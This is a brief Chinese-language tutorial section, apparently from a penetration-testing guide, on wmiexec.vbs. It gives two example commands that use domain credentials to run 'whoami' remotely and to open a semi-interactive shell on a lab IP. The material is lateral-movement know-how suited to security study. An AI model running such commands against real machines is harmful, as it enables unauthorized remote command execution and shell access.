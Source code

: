 ```yaml
---
title: 4.2.2.3 wmiexec.vbs
id: zhfly3425
---
```


#### 4.2.2.3 wmiexec.vbs

wmiexec.vbs 是为了解决 wmic 无法回显命令而开发的一个工具，原理就是把数据先存 到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和 获取半交互式的 shell

![image](../img/c2e4831599978061f540757f0c2dc900.png)

```
cscript wmiexec.vbs /cmd 192.168.19.178 adtest\jeff1 test@123 whoami 
```

![image](../img/32b69960a38f63b9dc4c245f3164c3df.png)

```
cscript wmiexec.vbs /shell 192.168.19.178 adtest\jeff1 test@123 
```

![image](../img/77bfc250325324e44c9437273065c3ca.png)